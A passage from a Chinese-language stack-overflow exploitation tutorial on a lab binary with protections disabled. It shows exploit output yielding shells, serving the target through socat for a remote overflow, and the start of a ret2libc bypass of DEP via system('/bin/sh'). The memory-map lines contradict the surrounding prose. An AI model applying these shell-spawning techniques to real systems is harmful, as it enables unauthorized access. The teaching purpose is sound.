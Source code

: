 ```

p.interactive()  #开启交互shell
```

执行exp：

```
#!bash
$ python exp1.py 
[+] Started program './level1'
[*] Switching to interactive mode
$ whoami
mzheng
```

接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成，命令如下：

```
#!bash
socat TCP4-LISTEN:10001,fork EXEC:./level1
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。

因为现在目标程序是跑在socat的环境中，exp脚本除了要把p = process('./level1')换成p = remote('127.0.0.1',10001) 之外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出啦！

```
#!bash
python exp1.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mzheng) gid=1000(mzheng) groups=1000(mzheng),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

# 0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护

------

现在我们把DEP打开，依然关闭stack protector和ASLR。编译方法如下：

```
#!bash
gcc -fno-stack-protector -o level2 level2.c
```

这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过`sudo cat /proc/[pid]/maps`查看，你会发现level1的stack是rwx的，但是level2的stack却是rw的。

```
level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
```

那么如何执行shellcode呢？我们知道level2调用了libc.so，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行`system(“/bin/sh”)`的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。
